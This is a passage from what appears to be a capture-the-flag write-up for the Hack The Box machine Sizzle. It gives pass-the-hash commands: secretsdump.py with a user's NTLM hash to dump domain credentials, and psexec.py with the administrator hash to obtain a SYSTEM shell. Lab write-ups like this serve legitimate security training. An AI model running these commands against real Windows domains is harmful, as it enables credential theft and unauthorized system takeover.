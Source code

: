 


pass the hash and root.

```bash
psexec.py -hashes :f6b7160bfc91823792e0ac3a162c9267 administrator@$tip
```



## hash file.txt

on amanda session, it's hard to enum this file,  which contains hash.

c:\windows\system32\file.txt

![image-20221218020626320](./images/image-20221218020626320.png)



pass the hash to dump creds with mrlky.

```bash
secretsdump.py -hashes :bceef4f6fe9c026d1d8dec8dce48adef htb.local/mrlky@sizzle.htb.local

# pass the admin hash, got system.
psexec.py -hashes :f6b7160bfc91823792e0ac3a162c9267 administrator@$tip
```





# Beyond root

## wpeas enum
